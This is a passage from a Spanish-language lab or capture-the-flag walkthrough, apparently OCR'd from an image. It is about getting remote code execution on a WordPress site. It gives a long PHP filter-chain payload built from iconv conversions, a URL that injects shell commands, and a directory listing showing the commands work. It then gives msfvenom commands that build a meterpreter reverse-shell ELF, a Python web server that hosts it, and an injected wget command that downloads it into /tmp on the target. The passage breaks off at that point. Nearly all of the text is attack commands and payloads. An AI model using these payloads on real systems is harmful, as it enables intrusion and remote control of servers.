 ```
t.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```

Copiamos eso y lo metemos despues del igual de la siguiente manera...

```
http://<IP>/wordpress/index.php?cmd=ls -la&love=<CONTENT_GENERATE>
```

Info:

```
total 12
drwxr-xr-x 2 root root 4096 May 20 20:00 .
drwxr-xr-x 3 root root 4096 May 20 19:52 ..
-rw-r--r-- 1 root root 1172 May 20 20:00 index.php
```

Veremos que funciona, por lo que haremos lo siguiente.

## msfvenom y metasploit (Reverse Shell)

Crearemos un archivo malicioso con una `Reverse Shell` en nuestro host.

```shell
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf
```

Abrimos un servidor de `python3` en nuestro host donde tenemos el archivo `.elf`.

```shell
python3 -m http.server 80
```

Nos lo descargamos mediante la herramienta `wget`.

```
URL = http://<IP>/wordpress/index.php?cmd=wget -P /tmp http://<IP>/shell.elf&love=<CONTENT_GENERATE>
```

